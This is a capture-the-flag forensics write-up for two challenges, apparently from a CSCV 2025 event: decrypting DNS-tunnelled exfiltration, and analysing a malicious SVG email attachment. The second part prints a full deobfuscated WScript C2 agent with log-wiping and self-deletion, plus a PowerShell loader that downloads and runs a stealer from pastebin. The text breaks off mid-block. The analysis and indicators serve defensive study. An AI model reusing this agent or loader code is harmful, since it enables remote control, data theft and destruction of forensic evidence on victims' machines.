

## DNS Exfil



### Thought process

I was given a `.pcap` and two connection logs.


I inspected the `.pcap` and saw only a large number of DNS entries.


I turned my attention to the logs. I spotted suspicious entries showing an `admin` authentication and commands being executed.


Commands executed via the webshell:
- whoami
- id 
- uname -a
- ping -c 10.10.10.53
- cat /etc/shadow (blocked)
- cat /flag (blocked)
- ls -la /var/www/html

I found a file called `getfile.php` uploaded to `/var/www/html/media`.


I also found evidence of AES encryption.


After extracting all the queried domain names, I saw some unusual entries.


```
1760509440.192821000 10.10.5.80 p.c7aec5d0d81ba8748acac6931e5add6c24b635181443d0b9d2.hex.cloudflar3.com
1760509440.212821000 10.10.0.53 p.c7aec5d0d81ba8748acac6931e5add6c24b635181443d0b9d2.hex.cloudflar3.com
1760509440.426899000 10.10.5.80 p.f8aad90d5fc7774c1e7ee451e755831cd02bfaac3204aed8a4.hex.cloudflar3.com
1760509440.446899000 10.10.0.53 p.f8aad90d5fc7774c1e7ee451e755831cd02bfaac3204aed8a4.hex.cloudflar3.com
1760509440.497508000 10.10.5.80 p.3dfec8a22cde4db4463db2c35742062a415441f526daecb59b.hex.cloudflar3.com
1760509440.517508000 10.10.0.53 p.3dfec8a22cde4db4463db2c35742062a415441f526daecb59b.hex.cloudflar3.com
1760509440.599459000 10.10.5.80 p.f6af1ecb8cc9827a259401e850e5e07fdc3c1137f1.hex.cloudflar3.com
1760509440.619459000 10.10.0.53 p.f6af1ecb8cc9827a259401e850e5e07fdc3c1137f1.hex.cloudflar3.com
1760509443.714885000 10.10.5.80 f.6837abc6655c12c454abe0ca85a596e98473172829581235dd.hex.cloudflar3.com
1760509443.734885000 10.10.0.53 f.6837abc6655c12c454abe0ca85a596e98473172829581235dd.hex.cloudflar3.com
1760509443.769962000 10.10.5.80 f.95380b06bf6dd06b89118b0003ea044700a5f2c4c106c3.hex.cloudflar3.com
1760509443.789962000 10.10.0.53 f.95380b06bf6dd06b89118b0003ea044700a5f2c4c106c3.hex.cloudflar3.com
```

I noticed the attacker exfiltrated data by encoding it as hexadecimal fragments embedded in DNS query names (qnames). Each qname contains a hex-encoded piece of AES-encrypted ciphertext.

I found all the qnames ending with `.hex.cloudflar3.com`. Each has the structure:
```
<prefix>.<hexfragment>.hex.cloudflar3.com
```
Example:
```
p.c7aec5d0d81ba8748acac6931e5add6c24b635181443d0b9d2.hex.cloudflar3.com
```
- **prefix**: `p` (stream identifier)
- **hexfragment**: `c7aec5d0d81ba8748acac6931e5add6c24b635181443d0b9d2` (encrypted data chunk)

For each DNS query line, I extracted:

```text
1760509440.192821000 10.10.5.80 p.c7aec5d0...hex.cloudflar3.com
```

I extracted:

- **Timestamp**: `1760509440.192821000` (for ordering)
- **Prefix**: `p` (stream ID - could be `p`, `f`, etc.)
- **Hex fragment**: `c7aec5d0d81ba8748acac6931e5add6c24b635181443d0b9d2`

I grouped all fragments by their prefix into separate streams. I then joined the deduplicated hex fragments for each stream and converted the resulting hex string to bytes.

From the error log (`10.10.5.80_error.log`), I found:

```text
APP_SECRET = "F0r3ns1c-2025-CSCV"
```

The log also showed the derivation method:

```text
H = SHA256(APP_SECRET)
AES_KEY = H[0:16]   # First 16 bytes
AES_IV  = H[16:32]  # Next 16 bytes
```

```python
from pathlib import Path
import re
import hashlib
from binascii import unhexlify
from Crypto.Cipher import AES


APP_SECRET = b"F0r3ns1c-2025-CSCV"
DNS_FILES = [Path("dns_queries_all1.txt"), Path("dns_queries_all.txt")]
QNAME_SUFFIX = ".hex.cloudflar3.com"


def pkcs7_unpad(data: bytes) -> bytes:
    if not data:
        return data
    pad = data[-1]
    if pad == 0 or pad > AES.block_size:
        return data
    if data[-pad:] != bytes([pad]) * pad:
        return data
    return data[:-pad]


def find_input_file():
    for p in DNS_FILES:
        if p.exists():
            return p
    return None


def parse_dns_dump(path: Path):
    pattern = re.compile(r"^\s*([0-9]+\.[0-9]+)\s+\S+\s+(\S+)$")
    with path.open("r", encoding="utf-8") as fh:
        for line in fh:
            m = pattern.match(line.strip())
            if not m:
                continue
            ts, qname = m.group(1), m.group(2)
            yield float(ts), qname


def extract_fragments(dump_path: Path):
    streams = {}
    for ts, qname in parse_dns_dump(dump_path):
        if not qname.endswith(QNAME_SUFFIX):
            continue
        left = qname[:-len(QNAME_SUFFIX)]
        if left.endswith('.'):
            left = left[:-1]
        parts = left.split('.')
        if len(parts) < 2:
            continue
        prefix = parts[0]
        hexpart = parts[1]
        if not re.fullmatch(r"[0-9a-fA-F]+", hexpart):
            continue
        streams.setdefault(prefix, []).append((ts, hexpart))
    return streams


def derive_key_iv(secret: bytes):
    h = hashlib.sha256(secret).digest()
    return h[:16], h[16:32]


def decrypt_stream(hex_chunks, key, iv):
    ct = unhexlify(''.join(hex_chunks))
    cipher = AES.new(key, AES.MODE_CBC, iv)
    pt = cipher.decrypt(ct)
    return pkcs7_unpad(pt)


def main():
    in_file = find_input_file()
    if in_file is None:
        return
    streams = extract_fragments(in_file)
    key, iv = derive_key_iv(APP_SECRET)
    for prefix, entries in streams.items():
        if not entries:
            continue
        entries.sort(key=lambda x: x[0])
        deduped = []
        last = None
        for ts, h in entries:
            if h == last:
                continue
            deduped.append(h)
            last = h
        total_hex = ''.join(deduped)
        if len(total_hex) % 32 != 0:
            continue
        plaintext = decrypt_stream(deduped, key, iv)
        text = plaintext.decode('utf-8', errors='ignore')
        if not text:
            continue
        m = re.search(r"(CSCV2025\{[^}]+\})", text)
        if not m:
            m = re.search(r"([A-Za-z0-9_-]{2,32}\{[^}]{4,256}\})", text)
        if m:
            print(m.group(1))
            return


if __name__ == '__main__':
    main()
```


```
CSCV2025{DnS_Exf1ltr4ti0nnnnnnnnnnNN!!}
``` 

## NostalgiaS


### Thought process

#### Outlook Data

Extracting the ZIP file revealed an `.ad1` file.


I used `FTK Imager` to inspect the disk image. It gave me access to a `C:\` disk image. After a quick look I found the `AppData` folder for the user "Mr. Kadoya".


While browsing `AppData` I found an `Outlook` folder containing an `.ost` file that I could use to recover Outlook emails.


I found an email with an attachment named `Moly.zip`.


After downloading and extracting it, I obtained an `.svg` file.


#### SVG file

When I ran `strings` on the file, it revealed many Base64-encoded strings; most were icons and images.


However, near the top of the file I found a script that attempted to download a payload from GitHub and execute it.


The file otherwise looked like a normal SVG, but I noticed the URL assigned to the `var logo` was suspicious.


The embedded code is obfuscated JavaScript. I deobfuscated it using `https://obf-io.deobfuscate.io/` and examined the result below.

#### Malicious JavaScript

```javascript
var shell = new ActiveXObject("WScript.Shell");
var fso = new ActiveXObject("Scripting.FileSystemObject");
var http = new ActiveXObject("MSXML2.ServerXMLHTTP.6.0");
function toISOString(_0x157c85) {
  return _0x157c85.getUTCFullYear() + '-' + (_0x157c85.getUTCMonth() + 0x1 < 0xa ? '0' + (_0x157c85.getUTCMonth() + 0x1) : _0x157c85.getUTCMonth() + 0x1) + '-' + (_0x157c85.getUTCDate() < 0xa ? '0' + _0x157c85.getUTCDate() : _0x157c85.getUTCDate()) + 'T' + (_0x157c85.getUTCHours() < 0xa ? '0' + _0x157c85.getUTCHours() : _0x157c85.getUTCHours()) + ':' + (_0x157c85.getUTCMinutes() < 0xa ? '0' + _0x157c85.getUTCMinutes() : _0x157c85.getUTCMinutes()) + ':' + (_0x157c85.getUTCSeconds() < 0xa ? '0' + _0x157c85.getUTCSeconds() : _0x157c85.getUTCSeconds()) + '.' + String((_0x157c85.getUTCMilliseconds() / 0x3e8).toFixed(0x3)).slice(0x2, 0x5) + 'Z';
}
function getCurrentDirectory() {
  try {
    return fso.GetParentFolderName(WScript.ScriptFullName);
  } catch (_0x2d9569) {
    return shell.CurrentDirectory;
  }
}
function generateTaskId() {
  var _0x2f64a5 = new Date().getTime();
  var _0x43d5c3 = 'xxxxxxxx-xxxx-4xxx-yxxx-xxxxxxxxxxxx'.replace(/[xy]/g, function (_0x596251) {
    var _0x1e8dab = (_0x2f64a5 + Math.random() * 0x10) % 0x10 | 0x0;
    _0x2f64a5 = Math.floor(_0x2f64a5 / 0x10);
    return (_0x596251 == 'x' ? _0x1e8dab : _0x1e8dab & 0x3 | 0x8).toString(0x10);
  });
  return _0x43d5c3;
}
function generateRandomString(_0xbe729e) {
  var _0x296f50 = '';
  for (var _0x2e33ab = 0x0; _0x2e33ab < _0xbe729e; _0x2e33ab++) {
    _0x296f50 += "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789".charAt(Math.floor(Math.random() * "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789".length));
  }
  return _0x296f50;
}
function registryKeyExists() {
  try {
    return true;
  } catch (_0xf69078) {
    return false;
  }
}
function initializeRegistry() {
  try {
    if (!registryKeyExists()) {
      var _0x1fc109 = generateRandomString(0x8);
      shell.RegWrite("HKCU\\SOFTWARE\\hensh1n\\", _0x1fc109, "REG_SZ");
      return true;
    } else {
      return false;
    }
  } catch (_0x436eaa) {
    return false;
  }
}
function getHostname() {
  try {
    return shell.ExpandEnvironmentStrings("%COMPUTERNAME%");
  } catch (_0x484e2d) {
    return "Unknown";
  }
}
function getPublicIP() {
  try {
    var _0x3e8f75 = new ActiveXObject('MSXML2.ServerXMLHTTP.6.0');
    _0x3e8f75.open('GET', "https://api.ipify.org?format=text", false);
    _0x3e8f75.setRequestHeader('User-Agent', 'Mozilla/5.0');
    _0x3e8f75.send();
    return _0x3e8f75.responseText;
  } catch (_0x5bdd77) {
    return 'Unknown';
  }
}
function getDomain() {
  try {
    var _0x8a5efc = shell.ExpandEnvironmentStrings("%USERDOMAIN%");
    if (_0x8a5efc === "%USERDOMAIN%" || _0x8a5efc === getHostname()) {
      return "WORKGROUP";
    }
    return _0x8a5efc;
  } catch (_0x1f1c18) {
    return "Unknown";
  }
}
function getOperatingSystem() {
  try {
    var _0x41371b = GetObject("winmgmts:\\\\.\\root\\cimv2");
    var _0x4af3cc = new Enumerator(_0x41371b.ExecQuery("SELECT * FROM Win32_OperatingSystem"));
    if (!_0x4af3cc.atEnd()) {
      var _0x299683 = _0x4af3cc.item();
      return {
        'name': _0x299683.Caption,
        'version': _0x299683.Version,
        'architecture': _0x299683.OSArchitecture
      };
    }
  } catch (_0x2575a8) {
    return {
      'name': "Unknown",
      'version': "Unknown",
      'architecture': "Unknown"
    };
  }
}
function escapeJSON(_0x1587c2) {
  var _0x19acbd = '';
  for (var _0x1aec83 = 0x0; _0x1aec83 < _0x1587c2.length; _0x1aec83++) {
    var _0x2b4cd2 = _0x1587c2.charAt(_0x1aec83);
    switch (_0x2b4cd2) {
      case "\\":
        _0x19acbd += "\\\\";
        break;
      case "\"":
        _0x19acbd += "\\\"";
        break;
      case "\n":
        _0x19acbd += "\\n";
        break;
      case "\r":
        _0x19acbd += "\\r";
        break;
      case "\t":
        _0x19acbd += "\\t";
        break;
      case "\b":
        _0x19acbd += "\\b";
        break;
      case "\f":
        _0x19acbd += "\\f";
        break;
      default:
        _0x19acbd += _0x2b4cd2;
    }
  }
  return _0x19acbd;
}
function simpleJSONStringify(_0x7189e9) {
  var _0xb35e3 = '{';
  var _0x23d6ec = true;
  for (var _0x29bb6f in _0x7189e9) {
    if (_0x7189e9.hasOwnProperty(_0x29bb6f)) {
      if (!_0x23d6ec) {
        _0xb35e3 += ',';
      }
      _0x23d6ec = false;
      _0xb35e3 += "\"" + escapeJSON(_0x29bb6f) + "\":";
      var _0x4ff2b8 = _0x7189e9[_0x29bb6f];
      if (typeof _0x4ff2b8 === "string") {
        _0xb35e3 += "\"" + escapeJSON(_0x4ff2b8) + "\"";
      } else {
        if (typeof _0x4ff2b8 === 'number' || typeof _0x4ff2b8 === "boolean") {
          _0xb35e3 += _0x4ff2b8;
        } else {
          if (_0x4ff2b8 === null || _0x4ff2b8 === undefined) {
            _0xb35e3 += "null";
          } else {
            if (typeof _0x4ff2b8 === "object") {
              if (_0x4ff2b8 instanceof Array) {
                _0xb35e3 += '[';
                for (var _0x2b47da = 0x0; _0x2b47da < _0x4ff2b8.length; _0x2b47da++) {
                  if (_0x2b47da > 0x0) {
                    _0xb35e3 += ',';
                  }
                  if (typeof _0x4ff2b8[_0x2b47da] === 'object') {
                    _0xb35e3 += simpleJSONStringify(_0x4ff2b8[_0x2b47da]);
                  } else if (typeof _0x4ff2b8[_0x2b47da] === 'string') {
                    _0xb35e3 += "\"" + escapeJSON(_0x4ff2b8[_0x2b47da]) + "\"";
                  } else {
                    _0xb35e3 += _0x4ff2b8[_0x2b47da];
                  }
                }
                _0xb35e3 += ']';
              } else {
                _0xb35e3 += simpleJSONStringify(_0x4ff2b8);
              }
            }
          }
        }
      }
    }
  }
  _0xb35e3 += '}';
  return _0xb35e3;
}
function executePowerShell(_0x10c8c8, _0x127e9d) {
  try {
    if (!_0x127e9d) {
      _0x127e9d = 0x1e;
    }
    var _0x514142 = "powershell.exe -NoProfile -NonInteractive -ExecutionPolicy Bypass -Command \"" + _0x10c8c8.replace(/"/g, "\\\"") + "\"";
    var _0xf1796 = shell.Exec(_0x514142);
    var _0x5cd9e3 = '';
    var _0x365d63 = 0x0;
    var _0x442bda = _0x127e9d * 0x3e8;
    while (_0xf1796.Status === 0x0 && _0x365d63 < _0x442bda) {
      WScript.Sleep(0x64);
      _0x365d63 += 0x64;
    }
    if (_0xf1796.Status === 0x0) {
      _0xf1796.Terminate();
      return {
        'success': false,
        'output': '',
        'error': "Command timed out after " + _0x127e9d + " seconds",
        'exitCode': -0x1
      };
    }
    if (!_0xf1796.StdOut.AtEndOfStream) {
      _0x5cd9e3 = _0xf1796.StdOut.ReadAll();
    }
    var _0x58ab3a = '';
    if (!_0xf1796.StdErr.AtEndOfStream) {
      _0x58ab3a = _0xf1796.StdErr.ReadAll();
    }
    return {
      'success': true,
      'output': _0x5cd9e3,
      'error': _0x58ab3a,
      'exitCode': _0xf1796.ExitCode
    };
  } catch (_0x3f214c) {
    return {
      'success': false,
      'output': '',
      'error': _0x3f214c.message,
      'exitCode': -0x1
    };
  }
}
function collectDomainInfo() {
  var _0x50b738 = [{
    'cmd': "Get-WmiObject -Class Win32_ComputerSystem | Select-Object Name, Domain, DomainRole | ConvertTo-Json",
    'timeout': 0xa
  }, {
    'cmd': "Get-WmiObject -Class Win32_OperatingSystem | Select-Object Caption, Version, OSArchitecture | ConvertTo-Json",
    'timeout': 0xa
  }, {
    'cmd': "Get-WmiObject -Class Win32_UserAccount -Filter \"LocalAccount='True'\" | Select-Object Name, Disabled, Description | ConvertTo-Json",
    'timeout': 0xa
  }, {
    'cmd': "Get-WmiObject -Class Win32_Group -Filter \"LocalAccount='True'\" | Select-Object Name, Description | ConvertTo-Json",
    'timeout': 0xa
  }, {
    'cmd': "Get-WmiObject -Class Win32_Service | Select-Object Name, DisplayName, State, StartMode -First 100 | ConvertTo-Json",
    'timeout': 0xa
  }, {
    'cmd': "Get-WmiObject -Class Win32_NetworkAdapterConfiguration -Filter \"IPEnabled='True'\" | Select-Object Description, IPAddress, MACAddress | ConvertTo-Json",
    'timeout': 0xa
  }, {
    'cmd': "Get-WmiObject -Class Win32_Product | Select-Object Name, Version, Vendor -First 50 | ConvertTo-Json",
    'timeout': 0x14
  }];
  var _0x2fd83b = [];
  for (var _0x32b061 = 0x0; _0x32b061 < _0x50b738.length; _0x32b061++) {
    var _0x437bac = executePowerShell(_0x50b738[_0x32b061].cmd, _0x50b738[_0x32b061].timeout);
    _0x2fd83b.push({
      'command': _0x50b738[_0x32b061].cmd,
      'output': _0x437bac.output,
      'error': _0x437bac.error,
      'exitCode': _0x437bac.exitCode
    });
    WScript.Sleep(0xc8);
  }
  return _0x2fd83b;
}
function clearEventLogsAndHistory() {
  var _0x3ad6a1 = [{
    'cmd': "wevtutil cl System",
    'timeout': 0x1e
  }, {
    'cmd': "wevtutil cl Application",
    'timeout': 0x1e
  }, {
    'cmd': "wevtutil cl Security",
    'timeout': 0x1e
  }, {
    'cmd': "wevtutil cl Setup",
    'timeout': 0x1e
  }, {
    'cmd': "wevtutil cl 'Windows PowerShell'",
    'timeout': 0x1e
  }, {
    'cmd': "wevtutil cl 'Microsoft-Windows-PowerShell/Operational'",
    'timeout': 0x1e
  }, {
    'cmd': "wevtutil cl 'Microsoft-Windows-PowerShell/Admin'",
    'timeout': 0x1e
  }, {
    'cmd': "wevtutil cl 'Microsoft-Windows-WinRM/Operational'",
    'timeout': 0x1e
  }, {
    'cmd': "wevtutil cl 'Microsoft-Windows-TaskScheduler/Operational'",
    'timeout': 0x1e
  }, {
    'cmd': "Remove-Item -Path '$env:APPDATA\\Microsoft\\Windows\\PowerShell\\PSReadLine\\ConsoleHost_history.txt' -Force -ErrorAction SilentlyContinue",
    'timeout': 0xa
  }, {
    'cmd': "Remove-Item -Path '$env:USERPROFILE\\AppData\\Roaming\\Microsoft\\Windows\\PowerShell\\PSReadLine\\*' -Force -Recurse -ErrorAction SilentlyContinue",
    'timeout': 0xa
  }, {
    'cmd': "Clear-History -ErrorAction SilentlyContinue",
    'timeout': 0xa
  }, {
    'cmd': "Remove-Item -Path '$env:APPDATA\\Microsoft\\Windows\\Recent\\*' -Force -Recurse -ErrorAction SilentlyContinue",
    'timeout': 0xa
  }, {
    'cmd': "Remove-Item -Path '$env:APPDATA\\Microsoft\\Office\\Recent\\*' -Force -Recurse -ErrorAction SilentlyContinue",
    'timeout': 0xa
  }, {
    'cmd': "Remove-Item -Path 'C:\\Windows\\Prefetch\\*' -Force -ErrorAction SilentlyContinue",
    'timeout': 0xf
  }, {
    'cmd': "Remove-Item -Path '$env:TEMP\\*' -Force -Recurse -ErrorAction SilentlyContinue",
    'timeout': 0x14
  }, {
    'cmd': "Remove-Item -Path 'C:\\Windows\\Temp\\*' -Force -Recurse -ErrorAction SilentlyContinue",
    'timeout': 0x14
  }, {
    'cmd': "Remove-Item -Path '$env:LOCALAPPDATA\\Google\\Chrome\\User Data\\Default\\History*' -Force -ErrorAction SilentlyContinue",
    'timeout': 0xa
  }, {
    'cmd': "Remove-Item -Path '$env:LOCALAPPDATA\\Microsoft\\Edge\\User Data\\Default\\History*' -Force -ErrorAction SilentlyContinue",
    'timeout': 0xa
  }, {
    'cmd': "Stop-Service -Name 'WSearch' -Force -ErrorAction SilentlyContinue; Remove-Item -Path 'C:\\ProgramData\\Microsoft\\Search\\Data\\Applications\\Windows\\*' -Force -Recurse -ErrorAction SilentlyContinue; Start-Service -Name 'WSearch' -ErrorAction SilentlyContinue",
    'timeout': 0x1e
  }];
  var _0x43d72e = [];
  for (var _0x9fc245 = 0x0; _0x9fc245 < _0x3ad6a1.length; _0x9fc245++) {
    var _0x26766c = executePowerShell(_0x3ad6a1[_0x9fc245].cmd, _0x3ad6a1[_0x9fc245].timeout);
    _0x43d72e.push({
      'command': _0x3ad6a1[_0x9fc245].cmd,
      'success': _0x26766c.exitCode === 0x0,
      'output': _0x26766c.output,
      'error': _0x26766c.error
    });
    WScript.Sleep(0x1f4);
  }
  return _0x43d72e;
}
function selfDestruct() {
  try {
    var _0x8bdeda = getCurrentDirectory();
    var _0x456dc0 = shell.ExpandEnvironmentStrings("%TEMP%") + "\\cleanup_" + new Date().getTime() + '.bat';
    var _0x4112a8 = fso.CreateTextFile(_0x456dc0, true);
    _0x4112a8.WriteLine("@echo off");
    _0x4112a8.WriteLine("timeout /t 2 /nobreak > nul");
    var _0x479644 = fso.GetFolder(_0x8bdeda);
    var _0x3e5af6 = new Enumerator(_0x479644.Files);
    for (; !_0x3e5af6.atEnd(); _0x3e5af6.moveNext()) {
      var _0x2c8b58 = _0x3e5af6.item();
      _0x4112a8.WriteLine("del /f /q /a \"" + _0x2c8b58.Path + "\"");
    }
    _0x4112a8.WriteLine("del /f /q \"%~f0\"");
    _0x4112a8.Close();
    shell.Run("cmd.exe /c \"" + _0x456dc0 + "\"", 0x0, false);
    WScript.Quit();
  } catch (_0x9a9eb6) {}
}
function sendToServer(_0x32d962, _0x49d14e) {
  var _0x23389c = "http://192.168.11.1:3000" + _0x32d962;
  try {
    http.open('POST', _0x23389c, false);
    http.setRequestHeader("Content-Type", 'application/json');
    http.setRequestHeader("User-Agent", "C2-Agent/1.0");
    var _0x390e5d = simpleJSONStringify(_0x49d14e);
    http.send(_0x390e5d);
    if (http.status === 0xc8) {
      var _0x56a4ad = eval('(' + http.responseText + ')');
      return {
        'success': true,
        'response': _0x56a4ad
      };
    } else {
      return {
        'success': false,
        'error': "HTTP " + http.status
      };
    }
  } catch (_0x2d87a0) {
    return {
      'success': false,
      'error': _0x2d87a0.message
    };
  }
}
function checkIn() {
  var _0x5b04fc = generateTaskId();
  var _0x4cc603 = getOperatingSystem();
  var _0x2c46da = {
    'taskId': _0x5b04fc,
    'hostname': getHostname(),
    'publicIP': getPublicIP(),
    'domain': getDomain(),
    'operatingSystem': _0x4cc603.name,
    'osVersion': _0x4cc603.version,
    'osArchitecture': _0x4cc603.architecture,
    'currentDirectory': getCurrentDirectory(),
    'timestamp': new Date().getUTCFullYear() + '-' + (new Date().getUTCMonth() + 0x1 < 0xa ? '0' + (new Date().getUTCMonth() + 0x1) : new Date().getUTCMonth() + 0x1) + '-' + (new Date().getUTCDate() < 0xa ? '0' + new Date().getUTCDate() : new Date().getUTCDate()) + 'T' + (new Date().getUTCHours() < 0xa ? '0' + new Date().getUTCHours() : new Date().getUTCHours()) + ':' + (new Date().getUTCMinutes() < 0xa ? '0' + new Date().getUTCMinutes() : new Date().getUTCMinutes()) + ':' + (new Date().getUTCSeconds() < 0xa ? '0' + new Date().getUTCSeconds() : new Date().getUTCSeconds()) + '.' + String((new Date().getUTCMilliseconds() / 0x3e8).toFixed(0x3)).slice(0x2, 0x5) + 'Z'
  };
  return sendToServer('/api/agent/checkin', _0x2c46da);
}
function processCommand(_0x3ee315) {
  if (!_0x3ee315 || !_0x3ee315.taskid || !_0x3ee315.optionid) {
    return;
  }
  switch (_0x3ee315.optionid) {
    case 0x1:
      var _0x6f0e5f = executePowerShell("iex(irm 'https://gist.githubusercontent.com/oumazio/fdd0b2711ab501b30b53039fa32bc9ca/raw/ca4f9da41c5c64b3b43f4b0416f8ee0d0e400803/secr3t.txt')");
      sendToServer("/api/agent/result", {
        'taskid': _0x3ee315.taskid,
        'optionid': 0x1,
        'url': "https://gist.githubusercontent.com/oumazio/fdd0b2711ab501b30b53039fa32bc9ca/raw/ca4f9da41c5c64b3b43f4b0416f8ee0d0e400803/secr3t.txt",
        'command': "iex(irm 'https://gist.githubusercontent.com/oumazio/fdd0b2711ab501b30b53039fa32bc9ca/raw/ca4f9da41c5c64b3b43f4b0416f8ee0d0e400803/secr3t.txt')",
        'output': _0x6f0e5f.output,
        'error': _0x6f0e5f.error,
        'exitCode': _0x6f0e5f.exitCode
      });
      break;
    case 0x2:
      var _0x38ddeb = collectDomainInfo();
      sendToServer("/api/agent/result", {
        'taskid': _0x3ee315.taskid,
        'optionid': 0x2,
        'domainInfo': _0x38ddeb
      });
      break;
    case 0x3:
      sendToServer("/api/agent/result", {
        'taskid': _0x3ee315.taskid,
        'optionid': 0x3,
        'message': "Self-destruct initiated"
      });
      selfDestruct();
      break;
    case 0x4:
      var _0x1ca764 = clearEventLogsAndHistory();
      sendToServer("/api/agent/result", {
        'taskid': _0x3ee315.taskid,
        'optionid': 0x4,
        'message': "Event logs and PowerShell history clearing completed",
        'results': _0x1ca764
      });
      break;
  }
}
function main() {
  initializeRegistry();
  var _0x4da710 = checkIn();
  if (_0x4da710.success) {
    if (_0x4da710.response && _0x4da710.response.command) {
      processCommand(_0x4da710.response.command);
    }
  }
  while (true) {
    WScript.Sleep(0x1388);
    var _0x4ea1d9 = sendToServer("/api/agent/poll", {
      'taskId': generateTaskId(),
      'hostname': getHostname()
    });
    if (_0x4ea1d9.success && _0x4ea1d9.response && _0x4ea1d9.response.command) {
      processCommand(_0x4ea1d9.response.command);
    }
  }
}
try {
  main();
} catch (_0x2f3530) {}
```
This is a WScript-based C2 agent that initializes an instance ID in the HKCU registry, collects system and network info, checks in to a hard-coded server, polls for commands, executes tasks (including running remote PowerShell), and reports results back to the server. It also includes anti-forensics (clearing logs and history) and a self-destruct routine.

IOCs:
  - C2 base: `http://192.168.11.1:3000`
  - Endpoints: `/api/agent/checkin`, `/api/agent/poll`, `/api/agent/result`
  - Registry: `HKCU\\SOFTWARE\\hensh1n\\`
  - Remote PowerShell pattern: `iex(irm 'https://gist.githubusercontent.com/oumazio/fdd0b2711ab501b30b53039fa32bc9ca/raw/ca4f9da41c5c64b3b43f4b0416f8ee0d0e400803/secr3t.txt')`

#### Extracted PowerShell

I extracted the PowerShell from the given link

```powershell
Iex(neW-obJecT  iO.cOMPrESsion.DeflaTEStreAM([iO.meMORysTrEAM] [convErt]::FroMbase64sTrInG('hVNhb9owEP2OxH+wUCSCIIZO06Qy7QNt1a1rxyZg6ybEJic5iFfHzhxTiLr+953BlKSgNV+i3N17797lzhvkOaShKL5qQd6RRmJMlve73YzlBkIuaaTSrmar7mnvD/wYfxg06jXvu9LXUGB5b/3qNX5PigyGLAVLMDbABOiPTDKOYA10xGPQ1zy6s9BPYBIV74pHS4nBes3ogjzUawQf7xbCc8FBGiwYwir4HP6GyJBxgQ2ldAiGPlU4BMhIxRCfK2m2sD0HvVArKRSLx0ZzufC9kt3Wc0F6wfNM5eC7jMsnsP7GxBJyy1zVohPNU79FgjwT3JBmp0n+ktsENOzafiDeLxKkzEQJaf7srae94HQQXLJgPmt7TfJYUXLkZ4XZiJXchxiazkq90BuQC5NsgXOlie9x+0PeEnwHwhyW2ky73drN+UBw6vEZMkzR2j1oM+v3J8om/D2TLXGWO+TkjRtT1YPSfMElE/8xUVZ92ceR6mNWKrrOy6G/IFyjhlvgY+0ztx92Em7lRjAX2D5Xku62B4dzg0vlV1Ura8PnaOXpMAIJpNEgAZMxKd/ANl51YphegLFQa2HXEH2/je1JWyVMuqG8knNlMXsGi9rK+SXZzjFvZ1zGeCKXgi1y9Dc2zPAIB4bzern6yzIUPDreEb2S9+oOG5dLITpk83q+Oo8k2pyImwOs8ZpOMPwP' ) ,[SYSTeM.io.comPRESsion.COmPRessiONmODe]::DECompResS) |FOReach-oBJeCt{ neW-obJecT  SyStEM.Io.STreAmREaDeR( $_,[TEXT.EncOdiNG]::ascIi ) }| FOreacH-objeCT{$_.rEAdToeND( ) }) 
```

Decoding the `base64` blob and inflating it yielded

```powershell
$AssemblyUrl = "https://pastebin.com/raw/90qeYSHA"
$XorKey = 0x24
$TypeName = "StealerJanai.core.RiderKick"
$MethodName = "Run"

try {
    $WebClient = New-Object System.Net.WebClient
    $encodedContent = $WebClient.DownloadString($AssemblyUrl)
    $WebClient.Dispose()
    
    $hexValues = $encodedContent.Trim() -split ',' | Where-Object { $_ -match '^0x[0-9A-Fa-f]+$' }
    
    $encodedBytes = New-Object byte[] $hexValues.Length
    for ($i = 0; $i -lt $hexValues.Length; $i++) {
        $encodedBytes[$i] = [Convert]::ToByte($hexValues[$i].Trim(), 16)
    }
    
    $originalBytes = New-Object byte[] $encodedBytes.Length
    for ($i = 0; $i -lt $encodedBytes.Length; $i++) {
        $originalBytes[$i] = $encodedBytes[$i] -bxor $XorKey
    }
    
    $assembly = [System.Reflection.Assembly]::Load($originalBytes)
    
    if ($TypeName -ne "" -and $MethodName -ne "") {
        $targetType = $assembly.GetType($TypeName)
        $methodInfo = $targetType.GetMethod($MethodName, [System.Reflection.BindingFlags]::Static -bor [System.Reflection.BindingFlags]::Public)
        $methodInfo.Invoke($null, $null)
    }
    
} catch {
    exit 1
}
```

1. Fetch: downloads a comma-separated hex blob from `https://pastebin.com/raw/90qeYSHA`.
2. Parse: splits the text on commas and converts hex tokens (0xNN) into a byte array.
3. Deobfuscate: XORs each byte with key `0x24` to recover original assembly bytes.
4. Load & invoke: loads the bytes as a .NET assembly (`[System.Reflection.Assembly]::Load`), finds `StealerJanai.core.RiderKick` and calls its static `Run()` method.
5. Handle errors: exits with code 1 on failure.

IOCs:

- Pastebin URL: `https://pastebin.com/raw/90qeYSHA`
- XOR key: `0x24`
- Type: `StealerJanai.core.RiderKick`
- Method: `Run`

#### Payload

XOR-ing the content in Pastebin yields the stealer assembly.


Using `dnSpy` to decompile the assembly I found the string `hensh1n` referenced in the code.


I found two encoded strings that decode to:

`CSCV2025{your_computer_` and `has_be3n_kicked_by`


From the code, the flag format is:

```
